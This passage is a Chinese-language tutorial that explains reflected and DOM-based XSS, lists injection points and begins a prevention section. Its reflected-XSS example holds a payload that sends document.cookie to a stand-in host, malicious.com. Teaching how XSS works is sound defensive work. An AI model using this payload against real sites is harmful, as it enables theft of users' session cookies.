 1. 攻击者构造出特殊的 URL，其中包含恶意代码。
2. 用户打开带有恶意代码的 URL 时，网站服务端将恶意代码从 URL 中取出，拼接在 HTML 中返回给浏览器。
3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

反射型 XSS 跟存储型 XSS 的区别是：存储型 XSS 的恶意代码存在数据库里，反射型 XSS 的恶意代码存在 URL 里。

反射型 XSS 漏洞常见于通过 URL 传递参数的功能，如网站搜索、跳转等。

由于需要用户主动打开恶意的 URL 才能生效，攻击者往往会结合多种手段诱导用户点击。

POST 的内容也可以触发反射型 XSS，只不过其触发条件比较苛刻（需要构造表单提交页面，并引导用户点击），所以非常少见。

#### 例子

点击`www.example.com?search=<script>window.location='http://malicious.com/?data=' + document.cookie</script>` 

### DOM 型 XSS

DOM 型 XSS 的攻击步骤：

1. 攻击者构造出特殊的 URL，其中包含恶意代码。
2. 用户打开带有恶意代码的 URL。
3. 用户浏览器接收到响应后解析执行，前端 JavaScript 取出 URL 中的恶意代码并执行。
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

DOM 型 XSS 跟前两种 XSS 的区别：DOM 型 XSS 攻击中，取出和执行恶意代码由浏览器端完成，属于前端 JavaScript 自身的安全漏洞，而其他两种 XSS 都属于服务端的安全漏洞。

### 案例漏洞总结

下面我们来系统的看下 XSS 有哪些注入的方法：

- 在 HTML 中内嵌的文本中，恶意内容以 script 标签形成注入。
- 在内联的 JavaScript 中，拼接的数据突破了原本的限制（字符串，变量，方法名等）。
- 在标签属性中，恶意内容包含引号，从而突破属性值的限制，注入其他属性或者标签。
- 在标签的 href、src 等属性中，包含 `javascript:` 等可执行代码。
- 在 onload、onerror、onclick 等事件中，注入不受控制代码。
- 在 style 属性和标签中，包含类似 `background-image:url("javascript:...");` 的代码（新版本浏览器已经可以防范）。
- 在 style 属性和标签中，包含类似 `expression(...)` 的 CSS 表达式代码（新版本浏览器已经可以防范）。

总之，如果开发者没有将用户输入的文本进行合适的过滤，就贸然插入到 HTML 中，这很容易造成注入漏洞。攻击者可以利用漏洞，构造出恶意的代码指令，进而利用恶意代码危害数据安全。

## 预防

防止浏览器执行恶意代码：

- 防止 HTML 中出现注入
- 防止 JavaScript 执行时，执行恶意代码

预防存储型和反射型 XSS：

- 改成纯前端渲染，把代码和数据分隔开
- 对 HTML 做充分转义

DOM 型 XSS 攻击：
